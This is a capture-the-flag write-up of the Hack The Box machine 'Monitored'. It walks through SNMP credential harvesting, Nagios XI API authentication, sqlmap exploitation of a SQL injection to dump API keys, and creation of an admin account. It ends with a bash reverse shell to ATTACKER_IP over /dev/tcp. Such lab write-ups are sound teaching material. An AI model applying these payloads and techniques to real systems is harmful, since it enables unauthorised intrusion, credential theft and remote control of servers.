This box is rated medium difficulty on HTB. It involves us gathering credentials over SNMP which can be used for a disabled account on the website. Using the Nagios API to generate an authentication token allows us to generate a session and access the dashboard. A known SQL Injection vulnerability then lets us dump the site's database and steal an admin API key. Using that key to create a new user with administrative rights makes way for us to execute commands on behalf of the web server and get a reverse shell. Finally, our account has Sudo permissions on a bash script that restarts the Nagios service which can be leveraged into executing arbitrary commands as root. 

## Scanning & Enumeration
As always, I begin with an Nmap scan against the target IP to find all running services on the host.

```
$ sudo nmap -p22,80,389,443 -sCV 10.129.230.96 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-04 19:15 CST
Nmap scan report for 10.129.230.96
Host is up (0.056s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 61:e2:e7:b4:1b:5d:46:dc:3b:2f:91:38:e6:6d:c5:ff (RSA)
|   256 29:73:c5:a5:8d:aa:3f:60:a9:4a:a3:e5:9f:67:5c:93 (ECDSA)
|_  256 6d:7a:f9:eb:8e:45:c2:02:6a:d5:8d:4d:b3:a3:37:6f (ED25519)
80/tcp  open  http     Apache httpd 2.4.56
|_http-title: Did not follow redirect to https://nagios.monitored.htb/
|_http-server-header: Apache/2.4.56 (Debian)
389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
443/tcp open  ssl/http Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
| ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK
| Not valid before: 2023-11-11T21:46:55
|_Not valid after:  2297-08-25T21:46:55
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
|_http-title: Nagios XI
Service Info: Host: nagios.monitored.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.79 seconds
```

Repeating the same for UDP reveals that SNMP is up and running on the box as well.

```
$ sudo nmap -p 123,161 -sU -sCV 10.129.230.96 -oN fullscan-udp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-04 19:20 CST
Nmap scan report for 10.129.230.96
Host is up (0.056s latency).

Bug in snmp-win32-software: no string output.
PORT    STATE SERVICE VERSION
123/udp open  ntp     NTP v4 (unsynchronized)
161/udp open  snmp    SNMPv1 server; net-snmp SNMPv3 server (public)
| snmp-info: 
|   enterprise: net-snmp
|   engineIDFormat: unknown
|   engineIDData: 6f3fa7421af94c6500000000
|   snmpEngineBoots: 36
|_  snmpEngineTime: 12m07s
|_snmp-sysdescr: Linux monitored 5.10.0-28-amd64 #1 SMP Debian 5.10.209-2 (2024-01-31) x86_64
| snmp-processes: 
|_  1: 
| snmp-netstat: 
|   TCP  0.0.0.0:22           0.0.0.0:0
|   TCP  0.0.0.0:389          0.0.0.0:0
|   UDP  0.0.0.0:68           *:*
|   UDP  0.0.0.0:123          *:*
|   UDP  0.0.0.0:161          *:*
|   UDP  0.0.0.0:162          *:*
|   UDP  10.129.230.96:123    *:*
|_  UDP  127.0.0.1:123        *:*
Service Info: Host: monitored

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.69 seconds
```

There are five total ports open:
- SSH on port 22
- An Apache web server on ports 80/443
- SNMP on port 161
- LDAP on port 389

Default scripts show that the web server is redirecting us to nagios.monitored.htb, so I'll add that to my `/etc/hosts` file. I also fire up Gobuster to search for subdirectories/subdomains in the background before heading over to the websites.

Attempting to reach the page with HTTP redirects us to its secure counterpart which shows a self-signed certificate. This gives us a support email address, but no other alternate names for the web server.



Moving on to the landing page only prompts us with a login for the Nagios instance. The default credentials of root:nagiosxi doesn't work and it seems that verbose errors aren't enabled either. Searchsploit returns quite a few results for this service, however I can't seem to find a version for it which would leave us guessing what to try.

## Gathering Creds over SNMP
Since my scans only returned forbidden directories, I'm going to enumerate SNMP in hopes that someone is sending plaintext credentials over the network. I use [snmp-check](https://www.kali.org/tools/snmpcheck/) to capture data into a file and parse the output for anything interesting.

```
snmp-check -c public 10.129.230.96 > out.txt
```

I notice an interesting command under the processes tab which looks to be providing credentials for the svc user.



Attempting to login with these at the Nagios panel returns a different error than usual that says the account may have been disabled. This suggests that the password works, but isn't allowing logins due to the admin shutting it down.



## API Hacking
We can either find a way to enumerate users and try credential stuffing with the same password (which seems unlikely), or see about getting a way to undo our disability with this account. Some quick research on Nagios API documentation led me to [this PDF](https://assets.nagios.com/downloads/nagiosxi/docs/Accessing-and-Using-the-XI-REST-API.pdf) which disclosed the common path at `/nagiosxi/api`. With that in mind, I'll begin fuzzing for any useful endpoints which can grant us a valid login.

```
$ ffuf -u https://nagios.monitored.htb/nagiosxi/api/v1/FUZZ -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt --fl 2       

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://nagios.monitored.htb/nagiosxi/api/v1/FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/Web-Content/raft-small-words.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 2
________________________________________________

authenticate            [Status: 200, Size: 49, Words: 6, Lines: 1, Duration: 82ms]
```

### Site Authentication
The authenticate API looks promising and navigating to it in my browser returns an error with my HTTP request method instead of one for no API key supplied.



Capturing a request to this endpoint and changing it to POST shows that we must supply a valid username and password. Just using normal parameters with the credentials found earlier gives us an `auth_token` for a login as the svc user.



In order to use this, we can simply navigate to the directory and provide it in the URL - `/nagiosxi/?token=[TOKEN_ID]`. With a valid session, the footer now discloses the version and we're able to start internal enumeration as well as start looking for known vulnerabilities in this implementation.



### SQL Injection
Research on this service shows that Nagios XI is an enterprise-grade IT infrastructure monitoring solution built on Nagios Core, designed to track server, network, and application performance. Our particular service is prone to [CVE-2023–40931](https://nvd.nist.gov/vuln/detail/CVE-2023-40931) which explains that a SQL Injection vulnerability allows authenticated attackers to execute arbitrary SQL commands via the ID parameter in a POST request to the `/nagiosxi/admin/banner_message-ajaxhelper.php` page.

With this we may be able to leak sensitive information from the database in order to get admin access on the site. I'll paste the POST request template as it was a bit hard to find.

```
POST /nagiosxi/admin/banner_message-ajaxhelper.php HTTP/1.1
Host: nagios.monitored.htb
Cookie: nagiosxi=[AUTHENTICATED_SESSION_COOKIE]
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Cache-Control: max-age=0
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 38

action=acknowledge_banner_message&id=* 
```

The point of injection is the `id` parameter and works to get the server to throw a SQL error, confirming that our instance is indeed vulnerable.



For the sake of time, I'm going to copy this request to a file and send it over to SQLmap to automate things. If you'd like to manually enumerate the database for this next step, I'll link some great resources and articles for reference.
- [PayloadsAllTheThings MySQL Injection cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md)
- [SQLi Database Enumeration](https://github.coventry.ac.uk/pages/CUEH/245CT/6_SQLi/DatabaseEnumeration/)
- [Hackvisor SQLi Attack Guide](https://hackviser.com/tactics/pentesting/web/sql-injection)

First we'll want a list of all databases, so we know what type of information to pull from. For some reason the request I captured wouldn't work even when replacing the cookie, so I swapped to specifying the URL.

```
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="id=3&action=acknowledge_banner_message" -p id --cookie "nagiosxi=skasgm1hdp8nmvub7v4uk3oepq" --batch --threads 10 --dbs
```



There's just one DB to grab stuff from, next up is tables.

```
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="id=3&action=acknowledge_banner_message" -p id --cookie "nagiosxi=skasgm1hdp8nmvub7v4uk3oepq" --batch --threads 10 -D nagiosxi --tables
```



This returns quite a few, however the main ones to consider are `xi_auth_tokens` and `xi_users`. Dumping the users table gives us an uncrackable hash for both svc and admin and the auth tokens have an expiration, so they won't be of use too. This would've been a big rabbit hole if not for the API key that was listed in the users table that we may be able to use for further API abuse.

```
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="id=3&action=acknowledge_banner_message" -p id --cookie "nagiosxi=skasgm1hdp8nmvub7v4uk3oepq" --batch --threads 10 -D nagiosxi -T xi_users --dump

Database: nagiosxi
Table: xi_users
[2 entries]
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
| user_id | email               | name                 | api_key                                                          | enabled | password                                                     | username    | created_by | last_login | api_enabled | last_edited | created_time | last_attempt | backend_ticket                                                   | last_edited_by | login_attempts | last_password_change |
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
| 1       | admin@monitored.htb | Nagios Administrator | IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL | 1       | $2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C | nagiosadmin | 0          | 1701931372 | 1           | 1701427555  | 0            | 1772675215   | IoAaeXNLvtDkH5PaGqV2XZ3vMZJLMDR0                                 | 5              | 3              | 1701427555           |
| 2       | svc@monitored.htb   | svc                  | 2huuT2u2QIPqFuJHnkPEEuibGJaJIcHCFDpDb29qSFVlbdO4HJkjfg2VpDNE3PEK | 0       | $2a$10$12edac88347093fcfd392Oun0w66aoRVCrKMPBydaUfgsgAOUHSbK | svc         | 1          | 1699724476 | 1           | 1699728200  | 1699634403   | 1772678729   | 6oWBPbarHY4vejimmu3K8tpZBNrdHpDgdUEs5P2PFZYpXSuIdrRMYgk66A0cjNjq | 1              | 8              | 1699697433           |
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
```

### Admin User Creation
Referring back to the API docs PDF, there's an example to the `/nagiosxi/api/v1/system/status` endpoint which will confirm if our new API key will work.



Perfect, now we need to fuzz for anything useful that will help us manage accounts or something similar. I'll keep the wordlist minimal since the server is slow to respond.

```
$ ffuf -u https://nagios.monitored.htb/nagiosxi/api/v1/system/FUZZ?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL -w /opt/SecLists/Discovery/Web-Content/api/objects.txt --fw 3

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://nagios.monitored.htb/nagiosxi/api/v1/system/FUZZ?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/Web-Content/api/objects.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 3
________________________________________________

command                 [Status: 200, Size: 6155, Words: 113, Lines: 2, Duration: 1357ms]
info                    [Status: 200, Size: 125, Words: 1, Lines: 2, Duration: 1036ms]
status                  [Status: 200, Size: 835, Words: 6, Lines: 2, Duration: 1219ms]
user                    [Status: 200, Size: 227, Words: 2, Lines: 2, Duration: 1300ms]
:: Progress: [3132/3132] :: Job [1/1] :: 27 req/sec :: Duration: [0:02:15] :: Errors: 4 
```

Command seems interesting, maybe we're able to execute commands on behalf of the web server since administrative privileges tend to have options like that. Making a GET request to it shows a history of previously used commands and some stats on them.



Attempting to make a POST request to it in hopes to get RCE on the server returns an error saying that we're trying to reach an unknown API endpoint.

```
$ curl -X POST 'https://nagios.monitored.htb/nagiosxi/api/v1/system/command?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL' -k -s | jq
{
  "error": "Unknown API endpoint."
}
```

We can't do anything if it doesn't accept POST requests to update fields, so I move onto testing the User one. A GET request to the page displays user info about the registered accounts on the site that matched the database we dumped earlier. Note that the site uses the enabled parameter as a way to keep track of who is an administrator.

```
$ curl 'https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL' -k -s | jq 
{
  "records": 2,
  "users": [
    {
      "user_id": "2",
      "username": "svc",
      "name": "svc",
      "email": "svc@monitored.htb",
      "enabled": "0"
    },
    {
      "user_id": "1",
      "username": "nagiosadmin",
      "name": "Nagios Administrator",
      "email": "admin@monitored.htb",
      "enabled": "1"
    }
  ]
}
```

Making a POST request to it shows that we're able to create users by supplying a few necessary fields. This is pretty useful, but if we don't have a way to upgrade our account to an administrator, we're back to square one.

```
$ curl -X POST 'https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL' -k -s | jq
{
  "error": "Could not create user. Missing required fields.",
  "missing": [
    "username",
    "email",
    "name",
    "password"
  ]
}
```

I tried a few requests while polluting the parameters (e.g. `admin=true`, `enabled=1`, etc.), but nothing seemed to work. Some more research on this API endpoint led me to [this forum page](https://support.nagios.com/forum/viewtopic.php?f=6&t=40502) that contained a similar request to create users, but also had an extra one for `auth_level` which would set the admin bit on it.



Let's try appending that to our body in a new POST request and check if it works.

```
curl -X POST 'https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL' -k -d "username=cbev&password=password&name=cbev&email=cbev@pwn.com&auth_level=admin"
```



Awesome, now after logging out of the svc account and into our newly created user, we are met with an Admin tab beside the usual things. There are now a lot of options we can play with, but since we saw the commands API earlier, that'll be my focus to get RCE on the box.



## Initial Foothold
After a while of searching around, I discover an interesting section under **Configure -> Core Config Manager -> Commands**, that lists a bunch of shell commands to be used from the site.



We also have the option to add new commands, so I'll make one that contains a simple bash reverse shell to get a foothold on the box.

```
bash -c 'bash -i &> /dev/tcp/ATTACKER_IP/9001 0>&1'
```

After creating that we'll need to hit the apply configuration option so the site is able to find our new command. That page doesn't have a way to execute them directly, so I'll search around for a way to schedule or have the system run it somehow else.

Heading back to the Core Config Manager tab shows a hosts folder that reveals a few more options in regards to localhost management. Clicking on the localhost text brings me to a components tab which allows us to select commands from a checklist. Selecting our reverse shell and scrolling down to the Run Check Command button grants us a shell on the box as Nagios.

